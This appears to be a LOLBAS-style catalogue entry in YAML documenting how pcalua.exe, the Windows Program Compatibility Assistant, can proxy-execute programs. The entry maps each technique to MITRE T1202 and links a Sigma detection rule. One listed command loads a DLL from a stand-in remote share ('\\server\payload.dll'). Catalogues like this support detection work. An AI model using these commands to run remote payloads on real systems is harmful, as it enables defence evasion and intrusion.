 ```yaml
---
Name: Pcalua.exe
Description: Program Compatibility Assistant
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: pcalua.exe -a calc.exe
    Description: Open the target .EXE using the Program Compatibility Assistant.
    Usecase: Proxy execution of binary
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: pcalua.exe -a \\server\payload.dll
    Description: Open the target .DLL file with the Program Compatibilty Assistant.
    Usecase: Proxy execution of remote dll file
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
    Tags:
      - Execute: DLL
  - Command: pcalua.exe -a C:\Windows\system32\javacpl.cpl -c Java
    Description: Open the target .CPL file with the Program Compatibility Assistant.
    Usecase: Execution of CPL files
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\pcalua.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_pcalua.yml
Resources:
  - Link: https://twitter.com/KyleHanslovan/status/912659279806640128
Acknowledgement:
  - Person: Kyle Hanslovan
    Handle: '@kylehanslovan'
  - Person: Fab
    Handle: '@0rbz_'
---
```

